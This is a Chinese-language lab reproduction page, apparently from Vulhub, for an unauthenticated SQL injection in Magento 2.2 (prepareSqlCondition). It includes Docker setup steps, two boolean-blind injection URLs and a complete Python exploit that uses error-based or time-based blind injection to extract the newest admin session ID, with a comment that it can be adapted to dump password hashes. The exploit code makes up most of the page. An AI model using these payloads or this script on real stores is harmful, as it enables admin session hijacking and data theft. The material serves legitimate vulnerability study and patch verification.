


Magento 2.2 SQL注入漏洞¶
漏洞描述¶
Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。
其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。
参考链接：
- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html
环境搭建¶
Vulhub执行如下命令启动Magento 2.2.7：
docker-compose up -d
环境启动后，访问http://your-ip:8080，即可看到Magento的安装页面。安装Magento时，数据库地址填写mysql，账号密码均为root，其他保持默认：
漏洞复现¶
分别访问如下链接：
http://your-vp-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-

http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -和))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -时，返回的HTTP状态码不同。
通过改变OR的条件，即可实现SQL BOOL型盲注。
漏洞POC¶
利用这个POC，可以读取管理员的session：
#!/usr/bin/env python3
# Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
# Charles Fol
# 2019-03-22
#
# SOURCE & SINK
# The sink (from-to SQL condition) has been present from Magento 1.x onwards.
# The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
# If your target runs Magento < 2.2.0, you need to find another source.
#
# SQL INJECTION
# The exploit can easily be modified to obtain other stuff from the DB, for
# instance admin/user password hashes.
#
import requests
import string
import binascii
import re
import random
import time
import sys
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
def run(url):
sqli = SQLInjection(url)
try:
sqli.find_test_method()
sid = sqli.get_most_recent_session()
except ExploitError as e:
print('Error: %s' % e)
def random_string(n=8):
return ''.join(random.choice(string.ascii_letters) for _ in range(n))
class ExploitError(Exception):
pass
class Browser:
"""Basic browser functionality along w/ URLs and payloads.
"""
PROXY = None
def __init__(self, URL):
self.URL = URL
self.s = requests.Session()
self.s.verify = False
if self.PROXY:
self.s.proxies = {
'http': self.PROXY,
'https': self.PROXY,
}
class SQLInjection(Browser):
"""SQL injection stuff.
"""
def encode(self, string):
return '0x' + binascii.b2a_hex(string.encode()).decode()
def find_test_method(self):
"""Tries to inject using an error-based technique, or falls back to timebased.
"""
for test_method in (self.test_error, self.test_timebased):
if test_method('123=123') and not test_method('123=124'):
self.test = test_method
break
else:
raise ExploitError('Test SQL injections failed, not vulnerable ?')
def test_timebased(self, condition):
"""Runs a test. A valid condition results in a sleep of 1 second.
"""
payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
r = self.s.get(
self.URL + '/catalog/product_frontend_action/synchronize',
params={
'type_id': 'recently_products',
'ids[0][added_at]': '',
'ids[0][product_id][from]': '?',
'ids[0][product_id][to]': payload
}
)
return r.elapsed.total_seconds() > 1
def test_error(self, condition):
"""Runs a test. An invalid condition results in an SQL error.
"""
payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
r = self.s.get(
self.URL + '/catalog/product_frontend_action/synchronize',
params={
'type_id': 'recently_products',
'ids[0][added_at]': '',
'ids[0][product_id][from]': '?',
'ids[0][product_id][to]': payload
}
)
if r.status_code not in (200, 400):
raise ExploitError(
'SQL injection does not yield a correct HTTP response'
)
return r.status_code == 400
def word(self, name, sql, size=None, charset=None):
"""Dichotomically obtains a value.
"""
pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
full = ''
check = False
if size is None:
# Yeah whatever
size_size = self.word(
name,
'LENGTH(LENGTH(%s))' % sql,
size=1,
charset=string.digits
)
size = self.word(
name,
'LENGTH(%s)' % sql,
size=int(size_size),
charset=string.digits
)
size = int(size)
print("%s: %s" % (name, full), end='\r')
for p in range(size):
c = charset
while len(c) > 1:
middle = len(c) // 2
h0, h1 = c[:middle], c[middle:]
condition = pattern % (sql, p+1, self.encode(h0))
c = h1 if self.test(condition) else h0
full += c
print("%s: %s" % (name, full), end='\r')
print(' ' * len("%s: %s" % (name, full)), end='\r')
return full
def get_most_recent_session(self):
"""Grabs the last created session. We don't need special privileges aside from creating a product so any session
should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
backend.
"""
# This is the default admin session timeout
session_timeout = 900
query = (
'SELECT %%s FROM admin_user_session '
'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
) % session_timeout
# Check if a session is available
available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
if not available:
raise ExploitError('No session is available')
print('An admin session is available !')
# Fetch it
sid = self.word(
'Session ID',
query % 'session_id',
charset=string.ascii_lowercase + string.digits,
size=26
)
print('Session ID: %s' % sid)
return sid
run(sys.argv[1])